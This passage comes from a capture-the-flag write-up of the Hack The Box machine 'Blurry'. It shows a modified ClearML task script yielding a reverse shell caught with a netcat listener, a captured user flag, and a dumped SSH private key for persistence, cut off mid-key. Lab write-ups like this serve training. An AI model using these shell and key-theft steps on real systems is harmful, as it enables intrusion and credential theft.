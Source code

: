 Executing the modified script which automatically added the `review tag` granted us a shell after a few seconds.

```c
┌──(kali㉿kali)-[/media/…/Machines/Blurry/files/project]
└─$ python3 test.py 
ClearML Task: created new task id=63e001270cd0494cb18578a484a43153
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/63e001270cd0494cb18578a484a43153/output/log
2024-06-08 16:55:28,869 - clearml.Task - INFO - No repository found, storing script code instead
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
```

```c
┌──(kali㉿kali)-[/media/…/notes/HTB/Machines/Blurry]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.3.141] 40140
bash: cannot set terminal process group (6593): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$
```

## user.txt

We got a shell as the user `jippity` which we found earlier and could grab the `user.txt`.

```c
jippity@blurry:~$ cat user.txt
cat user.txt
ee4ac75b198f7ce8f5185672f5b1415f
```

## Persistence

Conveniently the user had an `SSH key` placed in it's `.ssh` folder.

```c
jippity@blurry:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxxZ6RXgJ45m3Vao4oXSJBFlk9skeIQw9tUWDo/ZA0WVk0sl5usUV
KYWvWQOKo6OkK23i753bdXl+R5NqjTSacwu8kNC2ImqDYeVJMnf/opO2Ke5XazVBKWgByY
8qTrt+mWN7GKwtdfUqXNcdbJ7MGpzhnk8eYF+itkPFD0AcYfSvbkCc1SY9Mn7Zsp+/jtgk
FJsve7iqONPRlgvUQLRFRSUyPyIp2sGFEADuqHLeAaHDqU7uh01UhwipeDcC3CE3QzKsWX
SstitvWqbKS4E5i9X2BB56/NlzbiLKVCJQ5Sm+BWlUR/yGAvwfNtfFqpXG92lOAB4Zh4eo
7P01RInlJ0dT/jm4GF0O+RDTohk57l3F3Zs1tRAsfxhnd2dtKQeAADCmmwKJG74qEQML1q
6f9FlnIT3eqTvfguWZfJLQVWv0X9Wf9RLMQrZqSLfZcctxNI1CVYIUbut3x1H53nARfqSz
et/r/eMGtyRrY3cmL7BUaTKPjF44WNluj6ZLUgW5AAAFiH8itAN/IrQDAAAAB3NzaC1yc2
EAAAGBAMcWekV4CeOZt1WqOKF0iQRZZPbJHiEMPbVFg6P2QNFlZNLJebrFFSmFr1kDiqOj
pCtt4u+d23V5fkeTao00mnMLvJDQtiJqg2HlSTJ3/6KTtinuV2s1QSloAcmPKk67fpljex
isLXX1KlzXHWyezBqc4Z5PHmBforZDxQ9AHGH0r25AnNUmPTJ+2bKfv47YJBSbL3u4qjjT
0ZYL1EC0RUUlMj8iKdrBhRAA7qhy3gGhw6lO7odNVIcIqXg3AtwhN0MyrFl0rLYrb1qmyk
uBOYvV9gQeevzZc24iylQiUOUpvgVpVEf8hgL8HzbXxaqVxvdpTgAeGYeHqOz9NUSJ5SdH
U/45uBhdDvkQ06IZOe5dxd2bNbUQLH8YZ3dnbSkHgAAwppsCiRu+KhEDC9aun/RZZyE93q
k734LlmXyS0FVr9F/Vn/USzEK2aki32XHLcTSNQlWCFG7rd8dR+d5wEX6ks3rf6/3jBrck
a2N3Ji+wVGkyj4xeOFjZbo+mS1IFuQAAAAMBAAEAAAGANweUho02lo3PqkMh4ib3FJetG7
XduR7ME8YCLBkOM5MGOmlsV17QiailHkKnWLIL1+FI4BjPJ3qMmDY8Nom6w2AUICdAoOS2
KiIZiHS42XRg3tg9m6mduFdCXzdOZ3LV/IoN5XT6H+fDbOQdAwAlxJlml76g09y7egvjdW
KwNbdPoncDorsuIT4E6KXVaiN+XZ/DkTwq+Qg7n3Dnm3b4yrMMX30O+qORJypKzY7qpKLV
FYB22DlcyvJu/YafKL+ZLI+MW8X/rEsnlWyUzwxq93T67aQ0Nei8amO6iFzztfXiRsi4Jk
nKVuipAshuXhK1x2udOBuKXcT5ziRfeBZHfSUPyrbUbaoj/aGsg59GlCYPkcYJ1yDgLjIR
bktd7N49s5IccmZUEG2BuXLzQoDdcxDMLC3rxiNGgjA1EXe/3DFoukjGVOYxC0JbwSC1Pb
9m30zrxSJCxW7IOWWWrSgnc8EDpxw+W5SmVHRCrf+8c39rFdV5GLPshaDGWW5m9NzxAAAA
wFsqI1UWg9R9/afLxtLYWlLUrupc/6/YBkf6woRSB76sku839P/HDmtV3VWl70I5XlD+A9
```